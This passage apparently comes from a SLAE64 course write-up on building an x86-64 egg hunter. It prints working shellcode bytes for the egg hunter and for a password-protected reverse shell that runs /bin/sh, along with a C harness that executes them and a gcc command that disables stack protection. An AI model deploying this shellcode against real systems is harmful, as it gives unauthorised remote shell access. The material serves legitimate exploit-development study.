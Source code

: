 Now, the shellcode for the Egg Hunter is generated with one liner `objdump`:
```markdown
SLAE64> echo “\"$(objdump -d EggHunterV2.o | grep '[0-9a-f]:' | 
              cut -d$'\t' -f2 | grep -v 'file' | tr -d " \n" | sed 's/../\\x&/g')\"""

"\x48\x31\xd2\x66\x81\xca\xff\x0f\x48\xff\xc2\x48\x8d\x7a\x08\x6a\x15\x58\x48\x31\xf6\x0f
\x05\x3c\xf2\x74\xe8\x68\x6b\x61\x6b\x69\x58\x52\x5f\xaf\x75\xe2\xaf\x75\xdf\xff\xe7"

SLAE64> 
```
Also, the shellcode that is used is the one from the [Assignment #2](https://galminyana.github.io/Assignment02):
```markdown
SLAE64> nasm -f elf64 ReverseShell-ExecveStack_V2.nasm -o ReverseShell-ExecveStack_V2.o
SLAE64> echo “\"$(objdump -d ReverseShell-ExecveStack_V2.o | grep '[0-9a-f]:' | 
              cut -d$'\t' -f2 | grep -v 'file' | tr -d " \n" | sed 's/../\\x&/g')\"""
              
"\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x50\x5f\x52\x68\x7f\x01\x01\x01\x66
\x68\x11\x5c\x66\x6a\x02\x6a\x2a\x58\x54\x5e\x6a\x10\x5a\x0f\x05\x6a\x02\x5e\x6a\x21
\x58\x0f\x05\x48\xff\xce\x79\xf6\x6a\x01\x58\x49\xb9\x50\x61\x73\x73\x77\x64\x3a\x20
\x41\x51\x54\x5e\x6a\x08\x5a\x0f\x05\x48\x31\xc0\x48\x83\xc6\x08\x0f\x05\x48\xb8\x31
\x32\x33\x34\x35\x36\x37\x38\x56\x5f\x48\xaf\x75\x1a\x6a\x3b\x58\x99\x52\x48\xbb\x2f
\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\x52\x54\x5a\x57\x54\x5e\x0f\x05"

SLAE64> 
```
Both shellcodes are populated into the `shellcode.c` template:
```c
#include <stdio.h>
#include <string.h>

//#define EGG	"\x90\x50\x90\x50"
#define EGG	"kaki"

unsigned char egg_hunter[] = \
"\x48\x31\xd2\x66\x81\xca\xff\x0f\x48\xff\xc2\x48\x8d\x7a\x08\x6a\x15\x58"
"\x48\x31\xf6\x0f\x05\x3c\xf2\x74\xe8\x68\x6b\x61\x6b\x69\x58\x52\x5f\xaf"
"\x75\xe2\xaf\x75\xdf\xff\xe7";

unsigned char code[]= EGG EGG \
"\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x50\x5f\x52\x68\x7f\x01"
"\x01\x01\x66\x68\x11\x5c\x66\x6a\x02\x6a\x2a\x58\x54\x5e\x6a\x10\x5a\x0f"
"\x05\x6a\x02\x5e\x6a\x21\x58\x0f\x05\x48\xff\xce\x79\xf6\x6a\x01\x58\x49"
"\xb9\x50\x61\x73\x73\x77\x64\x3a\x20\x41\x51\x54\x5e\x6a\x08\x5a\x0f\x05"
"\x48\x31\xc0\x48\x83\xc6\x08\x0f\x05\x48\xb8\x31\x32\x33\x34\x35\x36\x37"
"\x38\x56\x5f\x48\xaf\x75\x1a\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x62\x69\x6e"
"\x2f\x2f\x73\x68\x53\x54\x5f\x52\x54\x5a\x57\x54\x5e\x0f\x05";

void main()
{
	printf("ShellCode Lenght + Eggs: %d\n", strlen(code));
	printf("Shellcode at position: %p\n", code);
	printf("Egg Hunter ShellCode Size: %d\n", strlen(egg_hunter));
	printf("Egg Hunter Shellcode at position: %p\n", egg_hunter);

	int (*ret)() = (int(*)())egg_hunter;
	ret();
}
```
#### Compiling and Run
When the program was compiled with the `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode` command, and run, it will take too long to find the shellcode. This is because the Hunter code, will start from the 1st lower memory position, and the program will be far from there. 